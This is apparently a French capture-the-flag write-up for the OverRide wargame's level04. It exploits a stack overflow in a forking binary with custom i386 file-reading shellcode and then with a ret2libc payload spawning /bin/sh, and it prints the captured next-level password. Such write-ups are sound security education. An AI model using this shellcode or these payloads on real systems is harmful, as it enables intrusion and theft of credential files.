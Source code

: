 # Level04

Nous remarquons la presence d'un fork, ainsi que des check, qui arrete le programme,
si on execve est appele.
Nous devons realiser notre propre shellcode file reader architecture i386,
il fera un open, read et write sur le fichier .pass du level suivant.

Le code asm est disponnible dans le fichier shellcode_file_reader.s dans le dossier resources.

Nous l'assemblons avec nasm et le linker ld pour pouvoir recuperer le shellcode en hexa.

```
nasm -f elf32 ./resources/shellcode_file_reader.s -o ./resources/shellcode.o
ld -m elf_i386 ./resources/shellcode.o -o ./resources/shellcode
chmod +x ./resources/shellcode
```

Ensuite nous recuperons sont code en hexa grace a obj dump.

```
$ objdump -d resources/shellcode

resources/shellcode:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:	31 c9                	xor    %ecx,%ecx
 8049002:	f7 e1                	mul    %ecx

08049004 <open>:
 8049004:	b0 05                	mov    $0x5,%al
 8049006:	51                   	push   %ecx
 8049007:	68 70 61 73 73       	push   $0x73736170
 804900c:	68 30 35 2f 2e       	push   $0x2e2f3530
 8049011:	68 65 76 65 6c       	push   $0x6c657665
 8049016:	68 72 73 2f 6c       	push   $0x6c2f7372
 804901b:	68 2f 75 73 65       	push   $0x6573752f
 8049020:	68 68 6f 6d 65       	push   $0x656d6f68
 8049025:	68 2f 2f 2f 2f       	push   $0x2f2f2f2f
 804902a:	89 e3                	mov    %esp,%ebx
 804902c:	cd 80                	int    $0x80

0804902e <read>:
 804902e:	93                   	xchg   %eax,%ebx
 804902f:	91                   	xchg   %eax,%ecx
 8049030:	b0 03                	mov    $0x3,%al
 8049032:	66 ba ff 0f          	mov    $0xfff,%dx
 8049036:	42                   	inc    %edx
 8049037:	cd 80                	int    $0x80

08049039 <write>:
 8049039:	92                   	xchg   %eax,%edx
 804903a:	b3 01                	mov    $0x1,%bl
 804903c:	c1 e8 0a             	shr    $0xa,%eax
 804903f:	cd 80                	int    $0x80

08049041 <exit>:
 8049041:	93                   	xchg   %eax,%ebx
 8049042:	cd 80                	int    $0x80

```

Ce qui nous donne :
```
\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x70\x61\x73\x73\x68\x30\x35\x2f\x2e\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\xff\x0f\x42\xcd\x80\x92\xb3\x01\xc1\xe8\x0a\xcd\x80\x93\xcd\x80
```

Nous devons maintenant trouver l'offset pour injecter le shellcode ainsi que son adresse.
On lance gdb normalement puis on le passe en mode debugging forks child:

```
set follow-fork-mode child
```

De la meme maniere qu'auparavant on trouve l'offset a 156 bytes.

on export tout d'abord le shellcode dans l'env comme si dessous:
```
level04@OverRide:~$ export SHELLCODE=`python -c 'print "\x90"*100 + "\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x70\x61\x73\x73\x68\x30\x35\x2f\x2e\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\xff\x0f\x42\xcd\x80\x92\xb3\x01\xc1\xe8\x0a\xcd\x80\x93\xcd\x80"
```

puis on trouve l'adressse du NOP le plus proche du shellcode:
```0xffffd8b0```

Place a l'injection:
```
level04@OverRide:~$ python -c 'print "B" * 156 + "\xb0\xd8\xff\xff"' | ./level04
```

# Methode 2 (ret2libc)

Création du ret2libc, pour cela nous avons besoin de l'adresse de `system` et de `exit` et de l'adresse de `/bin/sh` dans la libc.
```
$ gdb ./level04
(gdb) b main
(gdb) r
(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0xf7e5eb70  exit
...

(gdb) info function system                                                                                                                                    [17/354]
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
(gdb) info proc map
process 1996
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
         0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) quit
```
Ensuite on va composer notre payload : padding + system + exit + /bin/sh
```
level04@OverRide:~$ (python -c 'print "B"*156+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"';cat) | ./level04
Give me some shellcode, k

id
uid=1004(level04) gid=1004(level04) euid=1005(level05) egid=100(users) groups=1005(level05),100(users),1004(level04)
cat ~level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
